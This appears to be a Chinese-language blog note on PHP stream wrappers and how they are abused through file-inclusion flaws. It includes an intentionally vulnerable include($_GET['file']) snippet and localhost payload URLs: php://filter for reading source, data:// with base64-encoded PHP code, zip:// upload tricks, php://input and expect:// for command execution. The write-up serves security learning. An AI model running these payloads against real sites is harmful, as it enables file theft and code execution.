





# php支持的协议和封装协议小结 

  发表于 2017-11-16   |   分类于  [笔记][0]   |   |   阅读次数  26

点击阅读全文

## php协议类型

* file:// — 访问本地文件系统
* http:// — 访问 HTTP(s) 网址
* ftp:// — 访问 FTP(s) URLs
* php:// — 访问各个输入/输出流（I/O streams）
* zlib:// — 压缩流
* data:// — 数据（RFC 2397）
* glob:// — 查找匹配的文件路径模式
* phar:// — PHP 归档
* ssh2:// — Secure Shell 2
* rar:// — RAR
* ogg:// — 音频流
* expect:// — 处理交互式的流

## PHP.ini

* allow_url_fopen ：on 默认开启 该选项为on便是激活了 URL 形式的 fopen 封装协议使得可以访问 URL 对象文件等。
* allow_url_include：off 默认关闭，该选项为on便是允许 包含URL 对象文件等

## file://协议

file:// — 访问本地文件系统,不受allow_url_fopen与allow_url_include的影响

[](./img/file1.png)

### 使用方法

file:// [文件的绝对路径和文件名]

    http://127.0.0.1/code/1.php?file=file:///E:\phpStudy\WWW\code\phpinfo.php

[](./img/file2.png)

## php://协议

php:// — 访问各个输入/输出流（I/O streams）

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

### php://stdin, php://stdout 和 php://stderr

php://stdin、php://stdout 和 php://stderr 允许直接访问 PHP 进程相应的输入或者输出流。

php://stdin 是只读的， php://stdout 和 php://stderr 是只写的。

#### php://stdin

    
```
<?php
    while($line = fopen('php://stdin','r'))
    {//open our file pointer to read from stdin
        echo $line."\n";
        echo fgets($line);//读取
    }
?>
```
[](./img/stdin.png)

#### php://stdout

    
```
<?php
    $fd = fopen('php://stdout', 'w');
    if ($fd) {
        echo $fd."\n";
        fwrite($fd, "test");
        fwrite($fd, "\n");
        fclose($fd);
    }
?>
```
[](./img/stdout.png)

#### php://stderr

```
<?php
    $stderr = fopen( 'php://stderr', 'w' );
    echo $stderr."\n";
    fwrite($stderr, "uknow" );
    fclose($stderr);
?>
```
[](./img/stderr.png)

### php://filter

最常使用的一个伪协议，一般可以利用进行任意文件读取。 

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

#### 参数

名称 | 描述 
-|-
resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。 
read=<读链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符分隔。 
write=<写链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符分隔。 
<；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 

    
```
<?php
    include($_GET['file'])
?>
```
    
    http://127.0.0.1/code/1.php?file=php://filter/read=convert.base64-encode/resource=./phpinfo.php

[](./img/phpfilter1.png)

[](./img/phpfilter2.png)

### php://input

php://input 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

* allow_url_fopen ：off/on
* allow_url_include：on


[](./img/phpinput.png)

## zip://, bzip2://, zlib://协议

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

* allow_url_fopen ：off/on
* allow_url_include：off/on

### 使用方法

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

### 测试

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。

    http://127.0.0.1/code/1.php?file=zip://E:\phpStudy\WWW\code/1.zip%231.txt

[](./img/zip.png)

## data://协议

data://协议必须双在on才能正常使用；

* allow_url_fopen ：on
* allow_url_include：on


```
http://127.0.0.1/code/1.php?file=data://text/plain,<?php phpinfo()?>

http://127.0.0.1/code/1.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```
[](./img/data2.png)

[](./img/data1.png)

## glob://协议

glob:// — 查找匹配的文件路径模式

```
<?php
$it = new DirectoryIterator($_GET['file']);
foreach($it as $f) {
    printf("%s", $f->getFilename());
    echo'</br>'; 
}

?>
```
[](./img/glob.png)

## expect://协议

expect:// — 处理交互式的流

该封装协议默认未开启  
为了使用 expect:// 封装器，你必须安装 » PECL 上的 » Expect 扩展。

### 用法

```
expect://command
```
## Reference

[PHP][1]  
[php伪协议实现命令执行的七种姿势][2]

[0]: /categories/notes/
[1]: http://php.net
[2]: http://www.freebuf.com/column/148886.html